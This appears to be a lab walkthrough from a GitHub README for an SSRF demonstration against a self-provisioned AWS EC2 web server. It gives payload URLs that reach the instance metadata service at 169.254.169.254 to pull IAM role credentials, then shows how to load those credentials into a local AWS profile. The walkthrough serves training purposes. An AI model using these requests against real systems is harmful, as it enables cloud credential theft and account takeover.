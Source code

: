1.  From the console, locate the ec2 instance that was provisioned.

2.  In a seperate browser window, navigate to the public IP address of the ec2 instance.  

You can find the public IP by clicking on the instance, and going to `Details`, then `Public IPv4 address`.

<b> ** Make sure that you change the url to use http, as that is how we have configured our security group. ** </b>


```script 
 http://<public_ipv4_address>/
```

We can see that the web server is running, but it looks like it's expecting a query string.  We need to construct an SSRF payload.

3.  First, let's look at some of the metadata categories available:

```script
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/
```

These are all categories of information that the ec2 instance would be able to access during it's day to day actions.

4.  By navigating through the API structure, we can eventually get to credentials.  Paste each url into your browser to work through the API directory structure.  

<b> Variables Required </b>  
{Instance-Profile} - The instance profile name will be unique to each environment.  You can find this by iterating through 

```script
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{Instance-Profile}
```

5.  These are the credentials of the instance profile that is being used by the ec2 instance.  By making a profile using these credentials, we will be able to execute AWS API calls using the identity of the ec2 instance instance profile.  

Copy the value of `AccessKeyId`, `SecretAccessKey` and `Token`, and use it to configure a profile called `ssrf-demo`.  

In order to do this, open your aws credential file in a text editor.

By default, credential files are stored in the following places:   
    - Windows: `C:\Users\username\.aws\credentials`  
    - Linux: `~/.aws/credentials`

Create a new entry called `ssrf-demo`.

<b> Variables Required </b>  
- {AccessKeyId} - The Access key as found in the browser window.
- {SecretAccessKey} - The Secret Access key, as shown in the browser
- {Token} - The Token value, as shown in the browser

```script
    [ssrf-demo]
    aws_access_key_id = ${AccessKeyId}
    aws_secret_access_key = ${SecretAccessKey}
    aws_session_token = ${Token}
```